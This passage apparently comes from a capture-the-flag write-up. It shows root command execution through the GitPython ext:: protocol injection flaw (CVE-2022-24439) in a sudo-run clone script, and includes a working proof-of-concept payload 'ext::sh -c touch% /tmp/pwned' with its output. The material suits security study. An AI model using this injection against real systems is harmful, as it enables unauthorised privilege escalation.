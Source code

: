 <details><summary>What is GitPython?</summary></details>

## RCE

{% hint style="info" %}
Remote code execution (RCE) is a type of security [vulnerability ](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)that allows attackers to run arbitrary code. In this case, the code is executed by a file owned by the root user, meaning the commands run with root privileges.
{% endhint %}

Searching for "git import Repo exploit" we find a result on the Snyk website. [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

<figure><img src="../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

Comparing the line to the `clone_prod_change.py` script. It shows the `url_to_clone argument` is vulnerable because its lacking proper user input validation.

<figure><img src="../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Running the command from the PoC we find the pwned file in our /tmp folder confirming the RCE has worked.&#x20;

```bash
prod@editorial:/home/dev/apps$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/home/dev/apps$ ls /tmp
pwned   
```
